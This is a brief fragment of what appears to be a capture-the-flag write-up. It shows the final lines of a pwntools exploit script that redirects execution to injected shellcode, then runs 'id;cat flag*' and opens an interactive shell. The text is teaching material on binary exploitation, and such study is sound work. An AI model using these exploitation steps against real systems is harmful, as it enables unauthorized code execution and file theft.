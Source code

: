 ```python
sla('Exit\n','3')
sla('code?\n', hex(shellc2_addr))

# got flag
p.sendline('id;cat flag*')

p.interactive()
```

*nobodyisnobody still on the pwning side of life..*